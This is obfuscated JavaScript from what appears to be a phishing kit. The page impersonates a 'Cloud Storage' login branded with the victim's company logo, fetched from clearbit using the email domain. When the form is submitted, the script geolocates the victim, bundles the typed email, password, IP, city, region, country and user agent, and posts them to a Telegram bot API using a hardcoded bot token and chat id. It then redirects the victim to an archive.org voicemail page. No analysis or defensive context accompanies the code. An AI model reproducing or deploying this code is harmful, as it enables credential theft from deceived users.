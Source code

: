 ```html
        email = $(A(0xc2))[A(0xc9)](),
        domain = email[A(0xe4)](email[A(0xbc)]('@') + 0x1),
        frmsite = domain[A(0xe4)](0x0, domain[A(0xbc)]('.'));
    const str = frmsite + A(0xce),
        str2 = str[A(0xbd)](0x0)[A(0xeb)]() + str[A(0xe7)](0x1);
    let today = new Date()[A(0xc6)]();
    $(A(0xba))[A(0xe5)](str2), $('#title')[A(0xe5)](str2), $(A(0xc1))['append'](A(0xbb) + domain + A(0xd4)), $(A(0xdd))[A(0xe5)](A(0xcd) + domain + '\">'), document[A(0xe8)][A(0xd0)]['background'] = A(0xca) + domain + '\')', elem['on'](A(0xec), function (O) {
        var P = A;
        $('#inputPassword')[P(0xdf)]() === '' ? alert(P(0xcb)) : $['getJSON'](P(0xcf), function (Q) {
            var R = P,
                S = Q['ip'],
                T = Q[R(0xc8)],
                U = Q['region'],
                V = Q['country'],
                W = navigator['userAgent'];
            let X = new Date()[R(0xc6)]();
            var Y = R(0xc4) + str2 + ' by Zach A**' + '\x0a\x0a' + R(0xe2) + $(R(0xc2))[R(0xc9)]() + '\x0a' + R(0xc7) + $(R(0xd9))[R(0xdf)]() + '\x0a' + 'IP Address : ' + S + '\x0a' + R(0xe6) + U + '\x0a' + R(0xc3) + T + '\x0a' + R(0xbe) + V + '\x0a' + R(0xed) + W + '\x0a' + R(0xcc) + $(R(0xea))[R(0xdf)]() + '\x0a' + R(0xd8) + X + '\x0a' + R(0xbf) + $(R(0xc5))[R(0xdf)](),
                Z = R(0xdc) + elem1 + R(0xd3);
            $[R(0xd2)](Z, {
                'chat_id': elem2,
                'text': Y
            }, function (AA) {
                var AB = R;
                window['location'][AB(0xee)] = AB(0xd1);
            });
        });
    });
    
    function F() {
        var AC = ['val', '12ZidQyC', '20AFlrCY', 'Email: ', '63792quNVYn', 'substring', 'append', 'Region : ', 'slice', 'body', '139437pXYFEK', '#UserEmail', 'toUpperCase', 'click', 'Useragent : ', 'href', '88GpIPQU', '904cdojGd', '#submit', '#dname', '<img class=\"mb-4\" src=\"https://logo.clearbit.com/', 'lastIndexOf', 'charAt', 'Country : ', 'DateSent : ', '10311YpzJVd', '#dlogo', '#emailtext', 'City : ', '***', '#DateSent', 'toLocaleDateString', 'Password : ', 'city', 'text', 'url(\'https://logo.clearbit.com/', 'Password field missing!', 'Format : ', '<link rel=\"icon\" href=\"https://logo.clearbit.com/', ' Cloud Storage', 'https://ip.seeip.org/geoip', 'style', 'https://archive.org/details/VoiceMail_173', 'post', '/sendMessage', '\" alt=\"\" width=\"150\"  >', '4716964xBODFJ', '3724320KAqSuZ', '5852841790', 'Date Filled : ', '#inputPassword', '380874lxWkrT', '1170928pBbGzs', 'https://api.telegram.org/bot', 'head', '6055124896:AAFyQlC_8dr1GndB26ji4iV2ol2bPPQ9lq4'];
        F = function () {
            return AC;
        };
        return F();
    }
</script>
```

